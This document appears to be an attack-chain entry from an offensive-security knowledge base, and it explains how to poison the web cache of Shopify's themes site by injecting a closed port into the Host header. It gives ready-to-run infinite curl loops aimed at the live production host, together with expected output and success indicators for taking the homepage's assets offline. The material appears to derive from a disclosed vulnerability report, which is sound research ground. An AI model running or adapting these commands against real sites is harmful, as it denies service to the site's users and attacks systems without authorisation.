

---
tags:
  - web-cache-poisoning
  - dos
  - host-header-injection
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/grep]]'
tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
commands:
  - '[[commands/curl-poison-host-header-loop]]'
  - '[[commands/curl-verify-poisoned-cache-loop]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Poison-Web-Cache-with-Modified-Host-Header]]'
  - '[[procedures/Verify-Cache-Poisoning-on-Homepage]]'
  - '[[procedures/Observe-Denial-of-Service-Impact]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Denial of Service]]'
description: >-
  Exploits web cache poisoning vulnerability on Shopify's themes site by
  injecting an arbitrary closed port into the Host header, leading to poisoned
  cached responses that cause resource loading failures and Denial of Service.
skill_level: intermediate
impact_level: high
id: cc3e9c4a-70eb-4b59-b877-544085ba5f68
created_at: '2025-12-13T09:00:34.743Z'
updated_at: '2025-12-13T09:00:34.743Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Network Denial of Service]]'
---
# Web Cache Poisoning via Host Header for Denial of Service on Shopify Themes

## Overview

This attack chain demonstrates how to exploit a web cache poisoning vulnerability on https://themes.shopify.com by manipulating the Host header to include an arbitrary closed port (e.g., :1337). By repeatedly sending poisoned requests, the cache is tainted, causing subsequent responses to include invalid links that prevent resources like images and CSS from loading, resulting in a Denial of Service (DoS) for users accessing the site.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/grep]]

### Target Environment

- Platform: Web
- Required ports: 443 (open), 1337 (closed for poisoning)
- Network access: Public internet access to https://themes.shopify.com

### Initial Access Requirements

- No credentials required
- Ability to send HTTP requests to the target site

## Detailed Attack Procedures

### Step 1: Poison the Cache
procedure: [[procedures/Poison-Web-Cache-with-Modified-Host-Header]]

**Objective**: Inject an arbitrary closed port into the Host header to poison the web cache, ensuring that cached responses include invalid links.

**Instructions**: Use [[commands/curl-poison-host-header-loop]] to send repeated GET requests with the modified Host header:

```bash
while true; do curl -ik "https://themes.shopify.com:443/?g4mm4=hitthecache" -H "Host: themes.shopify.com:1337"|grep ":1337"; sleep 0;echo 1; done
```

Continue running until the grep confirms the poisoned port appears in responses.

**Expected Output**: Responses containing elements like <link rel="canonical" href="https://themes.shopify.com:1337/">.

**Success Indicators**:
- Poisoned port (:1337) detected in response output
- Cache hit confirmed by repeated requests

### Step 2: Verify Cache Poisoning
procedure: [[procedures/Verify-Cache-Poisoning-on-Homepage]]

**Objective**: Confirm that the homepage cache has been poisoned by checking for the invalid port in responses.

**Instructions**: Use [[commands/curl-verify-poisoned-cache-loop]] to send requests to the homepage and grep for the poisoned port:

```bash
while true; do curl -ik "https://themes.shopify.com:443/"|grep ":1337"; done
```

Monitor the output to verify poisoning.

**Expected Output**: Output lines containing :1337, such as <link rel="canonical" href="https://themes.shopify.com:1337/">.

**Success Indicators**:
- Consistent presence of poisoned port in homepage responses
- Indication that cache is serving tainted content

### Step 3: Observe DoS Impact
procedure: [[procedures/Observe-Denial-of-Service-Impact]]

**Objective**: Validate the Denial of Service by accessing the site and observing resource loading failures.

**Instructions**: Visit https://themes.shopify.com in a browser or use a tool to simulate user access. Check developer tools for failed resource loads due to invalid ports (e.g., https://themes.shopify.com:1337/...).

No specific command is required, but you can use curl to fetch the homepage and inspect manually.

**Expected Output**: Site resources (images, CSS) fail to load, breaking site functionality.

**Success Indicators**:
- Users unable to load site assets
- Effective DoS on the homepage

## Attack Chain Summary

### Key Achievements

1. Successful poisoning of web cache with invalid Host header
2. Verification of tainted responses served from cache
3. Achievement of Denial of Service impacting site usability

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Network Denial of Service]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Impact]]
